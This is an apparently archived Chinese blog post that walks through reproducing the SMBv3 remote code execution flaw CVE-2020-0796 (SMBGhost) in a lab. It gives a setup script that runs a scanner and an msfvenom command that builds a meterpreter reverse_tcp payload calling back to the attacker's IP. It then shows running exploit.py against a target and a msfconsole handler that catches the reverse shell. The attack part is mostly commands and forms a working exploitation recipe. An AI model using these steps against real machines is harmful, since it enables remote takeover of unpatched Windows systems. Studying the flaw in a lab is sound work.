


# CVE-2020-0796：微软 SMBv3 协议 RCE 复现 - 徐野子 - 博客园

> 原文：[`www.cnblogs.com/XuyeZi/p/14003140.html`](https://www.cnblogs.com/XuyeZi/p/14003140.html)

## CVE-2020-0796

Microsoft 服务器消息块 3.1.1（SMBv3）协议处理某些请求的方式中存在一个远程执行代码漏洞。成功利用此漏洞的攻击者可以获得在目标服务器或客户端上执行代码的能力。

## 受影响的系统版本

适用于 32 位系统的 Windows 10 版本 1903
Windows 10 1903 版（用于基于 x64 的系统）
Windows 10 1903 版（用于基于 ARM64 的系统）
Windows Server 1903 版（服务器核心安装）
适用于 32 位系统的 Windows 10 版本 1909
Windows 10 版本 1909（用于基于 x64 的系统）
Windows 10 1909 版（用于基于 ARM64 的系统）
Windows Server 版本 1909（服务器核心安装）

## 漏洞测试-环境准备


测试文件自取：[百度网盘](https://pan.baidu.com/s/1ZERFE9i1oYqqOoSbLTS8uw)
root

## 漏洞检测-扫描



执行 bash 脚本一键执行环境准备工作

```
#!/bin/bash
tar vxf Python-3.8.0.tar.xz
cd Python-3.8.0
 ./configure --prefix=/usr/local/src/python3
make && make install
echo "export PATH=$PATH:/usr/local/src/python3/bin" >>/etc/profile
source /etc/profile
cd ..
unzip SMBGhost-master.zip
unzip SMBGhost_RCE_PoC-master
cd SMBGhost-master
python3.8 scanner.py 192.168.139.110          /*这里 IP 地址需要更改为自己的靶机地址*/ 
```

将框选的所有文件拖到桌面一键运行
`root@kali:~/桌面# bash SM-2020-0796.sh`

## 漏洞复现-返回会话

1.生成一个反弹 shell 的文件输出在当前环境(含 exploit.py 的目录下)

```
root@kali:~/桌面# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.139.3 lport=2333 -f py -o shellcode.txt
/*这里的 lhost 指向自身，lport 也随便指定一个自己的 IP 地址*/ 
```


使用 mousepad 打开 shellcode.txt 将 buf 改为 USER_PYLOAD


接着将 exploit.py 中的*USER_PAYLOAD*改为*shellcode*中的代码


打开一个终端，执行 exploit.py，指定目标机

```
root@kali:~/桌面# cd SMBGhost_RCE_PoC-master
root@kali:~/桌面/SMBGhost_RCE_PoC-master# python3.8 exploit.py -ip 192.168.139.110 
```


打开 msfconsole 控制台


监听 shell 反弹的端口

```
use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set lport 2333      /*这里监听的与之前构造的木马指定的端口一致*/
set lhost 192.168.139.3      /与之前构造的木马 IP 一致，指向自身/
run 
```

